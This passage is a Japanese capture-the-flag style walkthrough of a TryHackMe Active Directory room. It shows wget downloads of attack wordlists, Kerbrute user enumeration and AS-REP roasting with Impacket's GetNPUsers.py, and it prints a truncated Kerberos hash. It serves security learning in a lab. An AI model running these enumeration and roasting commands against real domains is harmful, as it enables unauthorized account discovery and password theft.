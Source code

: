 攻撃用のユーザーリストとパスワードリストについては今回TryHackMeのRoomのTask4に準備されているのでDLしておく。
本来は、元々Kaliに準備されている辞書を利用するべきだが、今回は事前準備されているものを利用する。
```sh
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

Userを割り出すためにKerbruteを利用して実行
- userenum: ユーザー名の列挙
- -d: 対象ドメイン指定
- --dc: ドメインコントローラー指定
- userlist.txt: 利用する辞書
```sh
./kerbrute/dist/kerbrute_linux_arm64 userenum -d spookysec.local --dc spookysec.local userlist.txt
```

![](../img/Book/7DayHacking/7DayHacking_day6_2.png)

結果として最初からいるアカウント（ビルトインアカウント）でもないし重要性なユーザーっぽいのでこの辺りに狙いを定める
- svc-admin@spoolysec.local
- backup@spookysec.local


### TGTの取得とハッシュからパスワードをクラッシュ
#### Impacketを利用したTGTの取得
Impacketは、さまざまなプロトコルをプログラムから操作しやすくなるためのライブラリやツールの集まり。
GetNPUser.pyを利用して、取得したユーザーを利用してTGTを取得してみる

以下を実行してパスワードは未記入でEnter
```sh
./GetNPUsers.py spookysec.local/svc-admin   
```
得られたTGTが以下
```sh
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f~~~~~555
```
得られたHash値はhash.txtに書き込んでおく
